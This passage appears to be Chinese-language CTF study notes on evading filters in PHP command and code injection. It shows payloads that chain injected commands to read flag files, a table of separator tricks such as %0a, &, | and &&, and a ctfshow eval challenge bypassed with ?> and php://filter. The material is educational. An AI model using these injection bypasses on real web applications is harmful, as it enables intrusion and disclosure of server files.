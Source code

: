 采用多个命令即可

```php
/?ip=;cd flag_is_here;cat f*;
```





### 6、过滤分隔符 ;

1，可以使用%0a代替，%0a其实在某种程度上是最标准的命令链接符号

> 功能		符号		payload
> 换行符	%0a		?cmd=123%0als
> 回车符	%0d		?cmd=123%0dls
> 连续指令	;			?1=123;pwd
> 后台进程	&		?1=123&pwd
> 管道		|				?1=123|pwd
> 逻辑运算	||或&&	?1=123&&pwd
>

```php
;	//分号
|	//把前面输出的当作后面的输入 (管道符)
||	//前面为假才执行后面的指令
&	//两条命令都会执行
&&	//前面为假，后面不执行
```



2，`?>`代替`;`

在php中可以用`?>`来代替最后一个`;`因为php遇到定界符关闭标志时，系统会自动在PHP语句之后加上一个分号。
例题：ctfshow-web入门36

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这道题过滤了分号，直接用?>来代替分号

```php
include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```



### 7、shell_exec等无回显函数
